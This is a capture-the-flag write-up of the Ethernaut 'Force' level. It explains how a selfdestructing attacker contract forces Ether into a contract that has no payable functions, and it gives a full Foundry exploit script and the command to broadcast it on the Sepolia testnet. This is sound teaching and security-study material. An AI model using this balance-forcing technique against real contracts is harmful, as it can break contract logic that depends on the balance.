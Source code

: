```yaml
---
title: 'Force - The Ethernaut'
cover: https://ethernaut.openzeppelin.com/imgs/Level7.svg
categories: ["ctf"]
tags: ["blockchain","ethernaut"]
date: 2025-09-18
lastmod: 2025-09-18
---
```


## Challenge Overview

This level presents a contract with no payable functions, making it seemingly impossible to send Ether to it through normal means. The goal is to make the contract's balance greater than zero by forcing Ether into it using an unconventional method.

---

## Challenge Code

```solidity
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.0;

contract Force { /*
                   MEOW ?
         /\_/\   /
    ____/ o o \
    /~____  =ø= /
    (______)__m_m)
                   */ }
```

The contract contains no functions whatsoever - not even a fallback or receive function. This means:

1. No direct Ether transfers can be made to the contract
2. No function calls can be made to the contract
3. The contract cannot receive Ether through normal transactions

---

## Exploit Explanation

The solution leverages a low-level Ethereum feature: the `selfdestruct` operation. When a contract self-destructs, it can specify a recipient address to receive any remaining Ether in its balance. Crucially, this transfer **cannot be refused** by the recipient contract - it happens at the EVM level, bypassing any Solidity-level checks.

The exploit involves:
1. Creating an attacker contract with a payable function to receive Ether
2. Funding the attacker contract with a small amount of Ether
3. Calling `selfdestruct(target)` on the attacker contract, forcing all its Ether to the target contract

This works because:
- `selfdestruct` is an EVM opcode that forcibly sends Ether
- The recipient contract has no ability to reject this transfer
- It bypasses the need for payable functions or fallback/receive functions

---

## Exploit Script

```solidity
// SPDX-License-Identifier: UNLICENSED
pragma solidity ^0.8.0;

import "forge-std/Script.sol";
import "forge-std/console.sol";
import "../src/Force.sol";

contract Attacker {
    // Allow this contract to receive Ether
    receive() external payable {}

    function attack(address payable _target) public {
        // Self-destruct and force all Ether to target
        selfdestruct(_target);
    }
}

contract ForceSolution is Script {
    Force public forceInstance = Force(payable(<YOUR_INSTANCE>));

    function run() public {
        vm.startBroadcast(vm.envUint("PRIVATE_KEY"));
        
        // Check initial balance of target contract
        uint256 initialBalance = address(forceInstance).balance;
        console.log("Initial target balance:", initialBalance, "wei");
        
        // Deploy attacker contract
        Attacker attacker = new Attacker();
        
        // Send a small amount of Ether to the attacker contract
        (bool success, ) = address(attacker).call{value: 0.0001 ether}("");
        require(success, "Failed to fund attacker contract");
        
        // Execute the attack - force Ether into target contract
        attacker.attack(payable(address(forceInstance)));
        
        // Verify the attack was successful
        uint256 finalBalance = address(forceInstance).balance;
        console.log("Final target balance:", finalBalance, "wei");
        console.log("Attack successful:", finalBalance > initialBalance);
        
        vm.stopBroadcast();
    }
}
```

---

## Proof of Concept (PoC)

Execute the exploit with Foundry:

```bash
forge script script/ForceSolution.s.sol --rpc-url $SEPOLIA_URL --tc ForceSolution --broadcast
```